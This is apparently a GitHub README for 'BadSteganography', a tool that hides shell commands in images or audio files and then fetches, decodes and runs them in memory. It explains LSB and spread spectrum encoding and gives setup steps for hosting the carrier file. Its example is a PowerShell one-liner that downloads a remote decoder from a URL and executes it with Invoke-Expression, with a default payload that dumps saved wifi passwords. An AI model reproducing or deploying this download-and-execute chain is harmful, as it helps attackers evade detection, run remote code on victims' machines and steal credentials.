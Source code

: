 # BadSteganography
Bad Steganography is a repo for encoding commands into images or wav files to execute such in memory. 

# Spread Spectrum Encoding
The steganography method used in the provided script is a form of audio steganography known as spread spectrum encoding. In spread spectrum encoding, the hidden message is embedded in a way that spreads its energy across the frequency spectrum of the carrier signal. This makes the hidden message less susceptible to detection and removal by typical audio processing techniques.

In this specific implementation, the amplitude of the audio samples is modified to represent the binary values of the message. By altering the amplitude, the hidden message is encoded into the audio signal, which can later be extracted using the same method.

# LSB Encoding
The steganography method used in the provided code is called “LSB (Least Significant Bit) steganography.” In this method, the least significant bit of each color channel (RGB) of the pixels in a specified region of an image is replaced with a bit of the secret data. This is done in such a way that the change is not visually noticeable in the image, but the secret data can be retrieved by reading the least significant bits of the color channels in the same region.

# Usage
For the spread spectrum encoding script, grab a audio file.
1. Replace the audio path in the py file
2. Replace the message with whatever command in the py file
![BadSteganographyspread_spectrum_decode txt at main · CharlesTheGreat77BadSteganography](https://github.com/CharlesTheGreat77/BadSteganography/assets/27988707/c184577f-c9b1-4bd6-a2ce-643e0a6abf43)
4. Run the py file and save the length of the message
5. In the decoder, replace the message Length variable to whatever the length of your message is (leave it as a multiple of 8)
![Screenshot 2024-01-15 at 1 12 20 PM](https://github.com/CharlesTheGreat77/BadSteganography/assets/27988707/16c9cdc6-ba85-41fb-8beb-d113d976f8b8)
7. Lastly, replace the url in the decoder to where your newly encoded audio file will be hosted.

# Example
This default payload grabs the contents of the decoder, which then downloads the audio to memory, decodes the message, and executes the command with Invoke-Expression
```
iex(iwr https://raw.githubusercontent.com/CharlesTheGreat77/BadSteganography/main/spread_spectrum_decode.txt).Content | iex
```
-- Saves wifi passwords to pass.txt

